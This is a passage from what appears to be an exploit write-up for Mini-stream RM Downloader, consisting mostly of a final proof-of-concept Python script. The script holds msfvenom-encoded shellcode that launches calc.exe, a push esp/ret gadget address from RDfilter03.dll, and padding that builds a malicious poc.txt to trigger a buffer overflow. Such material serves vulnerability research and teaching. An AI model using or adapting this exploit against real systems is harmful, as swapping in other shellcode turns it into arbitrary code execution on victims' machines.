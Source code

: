 ```term
root@whitecr0wz:~# 
```

Final poc:

```term
import struct 

# msfvenom -p windows/exec CMD=calc.exe -f py -e x86/alpha_mixed EXITFUNC=thread BufferRegister=ESP 
# Payload size: 440 bytes

buf =  b""
buf += b"\x54\x59\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49"
buf += b"\x49\x49\x49\x49\x49\x37\x51\x5a\x6a\x41\x58\x50\x30"
buf += b"\x41\x30\x41\x6b\x41\x41\x51\x32\x41\x42\x32\x42\x42"
buf += b"\x30\x42\x42\x41\x42\x58\x50\x38\x41\x42\x75\x4a\x49"
buf += b"\x79\x6c\x48\x68\x6f\x72\x47\x70\x43\x30\x67\x70\x75"
buf += b"\x30\x4e\x69\x48\x65\x55\x61\x59\x50\x51\x74\x4e\x6b"
buf += b"\x32\x70\x64\x70\x4c\x4b\x73\x62\x36\x6c\x6e\x6b\x70"
buf += b"\x52\x76\x74\x6e\x6b\x44\x32\x51\x38\x74\x4f\x4e\x57"
buf += b"\x61\x5a\x65\x76\x76\x51\x49\x6f\x4c\x6c\x67\x4c\x35"
buf += b"\x31\x51\x6c\x47\x72\x34\x6c\x45\x70\x4b\x71\x78\x4f"
buf += b"\x44\x4d\x57\x71\x4b\x77\x49\x72\x39\x62\x42\x72\x53"
buf += b"\x67\x6e\x6b\x70\x52\x62\x30\x6e\x6b\x53\x7a\x45\x6c"
buf += b"\x4e\x6b\x52\x6c\x72\x31\x30\x78\x78\x63\x52\x68\x77"
buf += b"\x71\x58\x51\x50\x51\x4c\x4b\x66\x39\x61\x30\x47\x71"
buf += b"\x7a\x73\x6c\x4b\x77\x39\x47\x68\x5a\x43\x66\x5a\x51"
buf += b"\x59\x4e\x6b\x47\x44\x6c\x4b\x66\x61\x39\x46\x65\x61"
buf += b"\x69\x6f\x6c\x6c\x7a\x61\x7a\x6f\x44\x4d\x46\x61\x6a"
buf += b"\x67\x36\x58\x79\x70\x63\x45\x49\x66\x65\x53\x53\x4d"
buf += b"\x4c\x38\x37\x4b\x53\x4d\x71\x34\x51\x65\x59\x74\x51"
buf += b"\x48\x6c\x4b\x53\x68\x67\x54\x45\x51\x6e\x33\x72\x46"
buf += b"\x6e\x6b\x36\x6c\x72\x6b\x4c\x4b\x63\x68\x45\x4c\x45"
buf += b"\x51\x6b\x63\x4c\x4b\x55\x54\x6c\x4b\x37\x71\x78\x50"
buf += b"\x6e\x69\x50\x44\x55\x74\x75\x74\x73\x6b\x61\x4b\x45"
buf += b"\x31\x63\x69\x53\x6a\x63\x61\x6b\x4f\x6d\x30\x71\x4f"
buf += b"\x53\x6f\x52\x7a\x4e\x6b\x46\x72\x38\x6b\x4c\x4d\x73"
buf += b"\x6d\x62\x4a\x73\x31\x4c\x4d\x6f\x75\x58\x32\x57\x70"
buf += b"\x65\x50\x65\x50\x50\x50\x50\x68\x64\x71\x6e\x6b\x42"
buf += b"\x4f\x4f\x77\x69\x6f\x6a\x75\x4d\x6b\x59\x70\x65\x4d"
buf += b"\x55\x7a\x75\x5a\x75\x38\x6e\x46\x6d\x45\x4d\x6d\x4f"
buf += b"\x6d\x69\x6f\x38\x55\x47\x4c\x65\x56\x33\x4c\x55\x5a"
buf += b"\x6b\x30\x6b\x4b\x59\x70\x54\x35\x73\x35\x4f\x4b\x72"
buf += b"\x67\x37\x63\x50\x72\x30\x6f\x70\x6a\x65\x50\x66\x33"
buf += b"\x49\x6f\x6e\x35\x72\x43\x35\x31\x70\x6c\x33\x53\x64"
buf += b"\x6e\x71\x75\x34\x38\x71\x75\x77\x70\x41\x41"

pushesp = struct.pack("<I", 0x1003DF53) #   0x1003df53 : "\x54\xC3" |  {PAGE_EXECUTE_READ} [RDfilter03.dll] ASLR: False, Rebase: False, 
SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Mini-stream\RM Downloader\RDfilter03.dll)

buffer = "A" * 8704 + pushesp + buf + "\xff" * 200

f = open ("poc.txt", "w")
f.write(buffer)
f.close()
```
